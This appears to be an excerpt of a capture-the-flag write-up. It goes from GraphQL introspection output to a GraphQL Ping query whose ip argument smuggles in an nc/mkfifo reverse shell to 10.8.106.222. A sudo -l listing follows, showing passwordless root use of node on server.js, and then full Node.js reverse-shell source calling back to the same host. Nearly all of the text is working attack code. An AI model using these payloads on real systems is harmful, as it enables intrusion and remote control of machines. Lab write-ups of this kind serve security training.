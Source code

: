 ```json
          "description": "One possible value for a given Enum. Enum values are unique values, not a placeholder for a string or numeric value. However an Enum value is returned in a JSON response as a string."
        },
        {
          "name": "__Directive",
          "description": "A Directive provides a way to describe alternate runtime execution and type validation behavior in a GraphQL document.\n\nIn some cases, you need to provide options to alter GraphQL's execution behavior in ways field arguments will not suffice, such as conditionally including or skipping a field. Directives provide this by describing additional information to the executor."
        },
        {
          "name": "__DirectiveLocation",
          "description": "A Directive can be adjacent to many parts of the GraphQL language, a __DirectiveLocation describes one such possible adjacencies."
        }
      ]
    }
  }
}
```

```ruby
{ Ping(ip: "; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f") { ip output } }
```

```
para@ubuntu:~$ sudo -l
Matching Defaults entries for para on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User para may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /usr/bin/node /home/para/server.js
```

[Celestial reverse shell decoded](https://gist.github.com/mitchmoser/f6df9b7de4e6785ed66fd86082d02d69#file-celestial-reverse-shell-decoded)

```js
var net = require('net');
var spawn = require('child_process').spawn;
HOST="10.8.106.222";
PORT="9002";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }                                      
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```